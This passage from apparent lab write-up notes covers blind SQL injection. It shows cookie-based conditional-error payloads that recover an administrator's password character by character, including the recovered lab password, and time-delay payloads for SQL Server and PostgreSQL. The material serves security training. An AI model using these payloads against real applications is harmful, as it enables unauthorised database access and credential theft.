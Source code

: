 ```http
Cookie: TrackingId=irPxy6o9SarScloT' and (SELECT CASE WHEN ((select length(password) from users where username='administrator') = 20) THEN TO_CHAR(1/0) ELSE 'ciao' END FROM dual) = 'ciao
```

- By fuzzing on the password length and checking what request gives us an error (because it tries 1/0 operation), we know the password length (which is 20).

- Now fuzz on the single characters of the password as we did in the previous step:

```http
Cookie: TrackingId=irPxy6o9SarScloT' and (SELECT CASE WHEN ((select substr(password, 1, 1) from users where username='administrator') = 'a') THEN TO_CHAR(1/0) ELSE 'ciao' END FROM dual) = 'ciao
```

- Take all the characters with an error as response and concatenate them. This is the final password: **jgvd3wwry5afz0d6tvzy**

#### Exploiting blind SQL injection by triggering time delays

If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response. This means the previous technique for inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false. As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response.

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true:

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'-- 
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

- The first of these inputs does not trigger a delay, because the condition `1=2` is false.
- The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data by testing one character at a time:

```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

###### Lab: Blind SQL injection with time delays

- Force a 10 seconds time delay in the login request by injecting this code in the `TrackingId` cookie:

```http
Cookie: TrackingId=UNsNzbMrL6y9mjyF' || pg_sleep(10) --
```

